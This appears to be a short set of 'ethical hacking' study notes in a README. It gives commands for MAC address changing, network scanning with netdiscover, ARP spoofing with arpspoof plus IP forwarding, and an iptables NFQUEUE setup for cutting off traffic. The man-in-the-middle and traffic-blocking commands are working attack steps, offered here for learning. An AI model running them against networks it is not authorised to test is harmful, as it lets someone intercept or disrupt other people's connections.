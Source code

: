 # Hetical hacking
## Change mac address 
```
ip link show
sudo ip link set dev <your device here> down
sudo ip link set dev <your device here> address <your new mac address>
sudo ip link set dev <your device here> up
```
## Netdiscover
Scan all devices connected to a network
```
sudo netdiscover -r ip.start/end
```
## ARP SPOOFING
```
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7

echo 1 > /proc/sys/net/ipv4/ip_forward
```
## NET CUT
```
sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
pip3 install -U git+https://github.com/kti/python-netfilterqueue
sudo pip3 install -U git+https://github.com/kti/python-netfilterqueue
sudo iptables --flush
```